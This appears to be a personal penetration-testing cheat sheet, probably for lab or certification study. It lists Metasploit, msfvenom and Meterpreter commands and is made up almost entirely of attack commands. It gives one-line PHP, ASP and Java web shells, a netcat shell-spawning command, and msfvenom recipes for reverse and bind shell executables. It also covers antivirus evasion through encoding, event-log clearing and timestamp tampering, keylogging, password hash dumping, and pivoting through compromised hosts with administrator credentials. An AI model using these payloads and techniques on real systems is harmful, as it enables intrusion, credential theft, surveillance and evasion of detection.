 SMB - 445
Kerberos - 88
RDP - 3389
LDAP - 389 636

Tools
Mimikatz - credential dumping
winPeas - local privesc
Bloodhound - collect AD data and find attack paths
PowerSploit - ps1 scripts


Exploit Databases
exploit-db.com
cve.mitre.org
securityfocus.com
Google Dork: "CVE-20XX-XXXX" site:github.com

Reverse Shell Generator
revshells.com

SearchSplot
       searchsploit <query>         
       searchspoit -m <exploit_id>
  
Fix Kali Issues
       github.com/Dewalt-arch/pimpmykali
  

Metasploit - exploitation framework. Has everything.
  msfconsole
  setg - set global variables
  unsetg
  search
  info
  use
  set RHOSTS <IP? - sets local variables
  unset
  sessions - lists active sessions
  session -i <session id> - connects to a session
  sessopn -u 1 - upgrade a session
  sessions -c cmd - execute comands in all sessions
  sessions -i 10-20 -c <session id> - execute commands in specific sessions
  
MetaSploit listener
  use multi/handler    : metasploit listener
  set LHOST
  run   -starts the listener
  
Python Listeners
  Python 2 simple web server
    python -m SimpleHTTPServer 8080
  Python 3 simple web server
    python -m http.server 1338
  
TCPdump
  tcpdump -t eth0 icmp  :listen for pings on specific interface
  tcpdump -i any icmp    :listen for pings on every interface
  
  
Listeners
  nc -lvnp <port>  : listens for connections on a port
        -l  start listener
        -v  run verbose
        -n  no DNS resolution
        -p  port
  nc <ip> <port> -e /bin/sh

Webshells
github.com/BlackArch/webshells
<?php echo system($_GET['cmd']);?>   : PHP one liner web shell  
<% eval request("cmd")%>  : ASP one liner web shell
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>  : java web shell
                  
                  
       
msfvenom
       msfvenom -l payloads   : lists available paylaods
       msfvenom -l encoders   : lists available encodings
       msfvenom -p (payload) -e (encoder) -f (filer_format) LHOST=<LISTERNER_IP> LPORT=<LISTENER_PORT>
       
       payload obsufucation is important to bypass anti virus
       msfvenom -e x86/shikata_ga_nai...
       virustotal.com to check malware hash
       
       Basic Reverse Shells
       Windows
       msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/shell_reverse_tcp  LHOST=<IP> LPORT=<IP> -f elf -o malware.elf
       
       Basic Bind Shells
       Windows
       msfvenom -p windows/x64/shell/bind_tcp LHOST=<IP> RPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/bind_tcp  LHOST=<IP> RPORT=<IP> -f elf -o malware.elf
       
       msfvenom -p php/reverse_php LHOST=<IP> LPORT=1337 -o malware.php
       msfvenom -p windws/x64/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f msi -o malware.msi
      
                  
Meterpreter
       post exploitation tool for MetaSploit
       cat
       edit
       cd/ls
       pwd
       upload
       download
       
       sysinfo
       getuid
       
       Windows specific
              getsystem
              hashdump
                  
       
Meterpreter Terrorism
      clearev  : clear event logs
      timestomp  : time stamp tampering
      migrate 1337  : move to a nw process
      keyscan_start  : start keylogger
      keyscan_stop
      keyscan_dump  : dump logged keys
      screenshot
                  

       
       
       
       
Networking
       
       Address Resolution Protocol
       arp -a
       ip neigh show
       
       route print  - routing table
       route
       
       
       Conenctions and ports
       netstat -ano
       ss - peanut
       
       msf6
       run post/multi/manage/autorout
       cmd=add subnet=192.168.16.0 netmask=/24
       run post/multi/manage/autoroute cmd=print
       
       Port Scan in metasploit
       user auxiliary/scanner/portscan/tcp
       set RHOTS 192.168.16.5
       set ports 1-1000
       run
       
       Reverse Port Forwarding on Meterpreter
       portfwd add -R -p 1234 -l 443 -L 192.168.3.28
                     -R is reverse
                     -p is remotre port
                     -l is local port
                     -L is Listening host
                     192.168.3.28:443 <-> 0.0.0.0:1234
       
       Getting a Shell on Internal host
       msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.16.3 LPORT=1234 -f exe -o malware.exe
              LHOST and LPORT need to be set to compromised internal host when doing lateral movement. Just think, it makes sense.
       
       
       Proxying n Metasploit
       configure SOCKS proxy server
       use auxiliary/server/socks_proxy
       set srvport 9050
       set version 4a
       exploit -j
       
              Proxy allows us to communicate with the internal host from our native terminal
       
       Proxychains
       used to run commands through a proxy
       $ proxychains evil-winrm -u Administrator -p 'Oasswird123!' -i 192.168.16.5   (assumes credentials already got)
       $ proxychains xfreerdp /u:Administrator /p:'Password123!' /v:192.168.16.5 /d.mayorsec
       
       
                  
Upgrading a dumb shell with python                  
python -c 'import pty;pty.spawn("/bin/bash")'
